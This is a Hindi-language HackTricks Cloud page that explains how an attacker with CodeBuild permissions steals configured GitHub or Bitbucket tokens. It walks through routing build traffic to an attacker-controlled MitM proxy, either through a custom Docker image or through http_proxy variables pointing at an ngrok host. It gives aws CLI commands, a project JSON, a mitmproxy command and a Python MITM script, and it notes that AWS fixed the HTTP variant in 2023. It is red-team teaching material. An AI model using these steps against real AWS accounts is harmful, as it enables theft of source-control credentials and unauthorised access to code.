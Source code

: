 # AWS Codebuild - टोकन लीकेज

<details>

<summary><strong>शून्य से लेकर हीरो तक AWS हैकिंग सीखें</strong> <a href="https://training.hacktricks.xyz/courses/arte"><strong>htARTE (HackTricks AWS Red Team Expert)</strong></a><strong> के साथ!</strong></summary>

HackTricks का समर्थन करने के अन्य तरीके:

* यदि आप चाहते हैं कि आपकी **कंपनी का विज्ञापन HackTricks में दिखाई दे** या **HackTricks को PDF में डाउनलोड करें**, तो [**सब्सक्रिप्शन प्लान्स**](https://github.com/sponsors/carlospolop) देखें!
* [**आधिकारिक PEASS & HackTricks स्वैग**](https://peass.creator-spring.com) प्राप्त करें
* [**The PEASS Family**](https://opensea.io/collection/the-peass-family) की खोज करें, हमारा एक्सक्लूसिव [**NFTs**](https://opensea.io/collection/the-peass-family) का संग्रह
* 💬 [**Discord group**](https://discord.gg/hRep4RUj7f) में **शामिल हों** या [**telegram group**](https://t.me/peass) में या **Twitter** पर 🐦 [**@carlospolopm**](https://twitter.com/carlospolopm) को **फॉलो करें**.
* [**HackTricks**](https://github.com/carlospolop/hacktricks) और [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos में PRs सबमिट करके अपनी हैकिंग ट्रिक्स शेयर करें।

</details>

## Github/Bitbucket कॉन्फ़िगर किए गए टोकन्स की रिकवरी

सबसे पहले, जांचें कि क्या कोई सोर्स क्रेडेंशियल्स कॉन्फ़िगर किए गए हैं जिन्हें आप लीक कर सकते हैं:
```bash
aws codebuild list-source-credentials
```
### डॉकर इमेज के माध्यम से

यदि आप पाते हैं कि उदाहरण के लिए Github के लिए प्रमाणीकरण खाते में सेट है, तो आप **access** (**GH token या OAuth token**) को **exfiltrate** कर सकते हैं जिससे Codebuild को विशेष डॉकर इमेज का उपयोग करके प्रोजेक्ट का निर्माण चलाने के लिए बनाया जा सकता है।

इस उद्देश्य के लिए आप एक नया Codebuild प्रोजेक्ट **create** कर सकते हैं या मौजूदा के **environment** को बदलकर **Docker image** सेट कर सकते हैं।

आप जिस Docker इमेज का उपयोग कर सकते हैं वह है [https://github.com/carlospolop/docker-mitm](https://github.com/carlospolop/docker-mitm)। यह एक बहुत ही बुनियादी Docker इमेज है जो **env variables `https_proxy`**, **`http_proxy`** और **`SSL_CERT_FILE`** सेट करेगी। इससे आप **`https_proxy`** और **`http_proxy`** में निर्दिष्ट होस्ट के अधिकांश ट्रैफिक को इंटरसेप्ट कर सकते हैं और **`SSL_CERT_FILE`** में निर्दिष्ट SSL CERT पर भरोसा कर सकते हैं।

1. **अपनी खुद की Docker MitM इमेज बनाएं और अपलोड करें**
* रेपो के निर्देशों का पालन करें अपने प्रॉक्सी IP पते को सेट करने के लिए और अपने SSL सर्ट को सेट करें और **build the docker image**।
* **`http_proxy`** सेट न करें ताकि मेटाडेटा एंडपॉइंट के लिए अनुरोधों को इंटरसेप्ट न किया जा सके।
* आप **`ngrok`** का उपयोग कर सकते हैं जैसे `ngrok tcp 4444` अपने होस्ट के लिए प्रॉक्सी सेट करने के लिए।
* एक बार जब आपके पास Docker इमेज बन जाए, तो इसे किसी सार्वजनिक रेपो (Dockerhub, ECR...) में **upload** करें।
2. **environment सेट करें**
* एक **नया Codebuild प्रोजेक्ट** बनाएं या मौजूदा के environment को **modify** करें।
* प्रोजेक्ट को **पहले से जनरेट की गई Docker इमेज** का उपयोग करने के लिए सेट करें।
*

<figure><img src="../../../../.gitbook/assets/image (18).png" alt=""><figcaption></figcaption></figure>
3. **अपने होस्ट में MitM प्रॉक्सी सेट करें**
* **Github रेपो** में बताए गए अनुसार आप कुछ इस तरह का उपयोग कर सकते हैं:
```bash
mitmproxy --listen-port 4444  --allow-hosts "github.com"
```
4. **निर्माण चलाएं और साख प्राप्त करें**

*   आप **Authorization** हेडर में टोकन देख सकते हैं:

<figure><img src="../../../../.gitbook/assets/image (19).png" alt=""><figcaption></figcaption></figure>

यह aws cli का उपयोग करके भी किया जा सकता है

{% code overflow="wrap" %}
```bash
# Create project using a Github connection
aws codebuild create-project --cli-input-json file:///tmp/buildspec.json

## With /tmp/buildspec.json
{
"name": "my-demo-project",
"source": {
"type": "GITHUB",
"location": "https://github.com/uname/repo",
"buildspec": "buildspec.yml"
},
"artifacts": {
"type": "NO_ARTIFACTS"
},
"environment": {
"type": "LINUX_CONTAINER", // Use "ARM_CONTAINER" to run docker-mitm ARM
"image": "docker.io/carlospolop/docker-mitm:v12",
"computeType": "BUILD_GENERAL1_SMALL",
"imagePullCredentialsType": "CODEBUILD"
}
}

## Json

# Start the build
aws codebuild start-build --project-name my-project2
```
{% endcode %}

### ~~HTTP प्रोटोकॉल के माध्यम से~~

{% hint style="success" %}
**यह कमजोरी AWS द्वारा 20 फरवरी 2023 के सप्ताह में किसी समय सही कर दी गई थी (मुझे लगता है शुक्रवार को)। इसलिए अब एक हमलावर इसका दुरुपयोग नहीं कर सकता :)**
{% endhint %}

एक हमलावर जिसके पास **CodeBuild में उच्च अनुमतियां हों, Github/Bitbucket टोकन को लीक कर सकता है** जो कॉन्फ़िगर किया गया हो या यदि अनुमतियां OAuth के माध्यम से कॉन्फ़िगर की गई हों, तो **कोड तक पहुंचने के लिए इस्तेमाल किया गया अस्थायी OAuth टोकन**।

* एक हमलावर CodeBuild प्रोजेक्ट में पर्यावरण चर **http\_proxy** और **https\_proxy** जोड़ सकता है जो उसकी मशीन की ओर इशारा करते हैं (उदाहरण के लिए `http://5.tcp.eu.ngrok.io:14972`).

<figure><img src="../../../../.gitbook/assets/image (91).png" alt=""><figcaption></figcaption></figure>

<figure><img src="../../../../.gitbook/assets/image (10) (1).png" alt=""><figcaption></figcaption></figure>

* फिर, github रेपो के URL को HTTP का उपयोग करने के लिए HTTPS के बजाय बदलें, उदाहरण के लिए: **http://**github.com/carlospolop-forks/TestActions
* फिर, प्रॉक्सी चर (http\_proxy और https\_proxy) द्वारा इंगित पोर्ट में [https://github.com/synchronizing/mitm](https://github.com/synchronizing/mitm) से बेसिक उदाहरण चलाएं।
```python
from mitm import MITM, protocol, middleware, crypto

mitm = MITM(
host="127.0.0.1",
port=4444,
protocols=[protocol.HTTP],
middlewares=[middleware.Log], # middleware.HTTPLog used for the example below.
certificate_authority = crypto.CertificateAuthority()
)
mitm.run()
```
* अंत में, **Build the project** पर क्लिक करें, **credentials** स्पष्ट पाठ (base64) में mitm पोर्ट पर **भेजे जाएंगे**:

<figure><img src="../../../../.gitbook/assets/image (1) (1) (6).png" alt=""><figcaption></figcaption></figure>

{% hint style="warning" %}
अब एक हमलावर अपनी मशीन से टोकन का उपयोग कर सकेगा, सभी अधिकारों की सूची बना सकेगा और CodeBuild सेवा का सीधे उपयोग करने से आसानी से (दुरुपयोग) कर सकेगा।
{% endhint %}

<details>

<summary><strong>Learn AWS hacking from zero to hero with</strong> <a href="https://training.hacktricks.xyz/courses/arte"><strong>htARTE (HackTricks AWS Red Team Expert)</strong></a><strong>!</strong></summary>

HackTricks का समर्थन करने के अन्य तरीके:

* यदि आप HackTricks में अपनी **कंपनी का विज्ञापन देखना चाहते हैं** या **HackTricks को PDF में डाउनलोड करना चाहते हैं** तो [**SUBSCRIPTION PLANS**](https://github.com/sponsors/carlospolop) देखें!
* [**official PEASS & HackTricks swag**](https://peass.creator-spring.com) प्राप्त करें
* [**The PEASS Family**](https://opensea.io/collection/the-peass-family) की खोज करें, हमारा विशेष [**NFTs**](https://opensea.io/collection/the-peass-family) संग्रह
* 💬 [**Discord group**](https://discord.gg/hRep4RUj7f) में **शामिल हों** या [**telegram group**](https://t.me/peass) में या **Twitter** पर 🐦 [**@carlospolopm**](https://twitter.com/carlospolopm) को **फॉलो** करें।
* **HackTricks** और [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos में PRs सबमिट करके अपनी हैकिंग ट्रिक्स साझा करें।

</details>
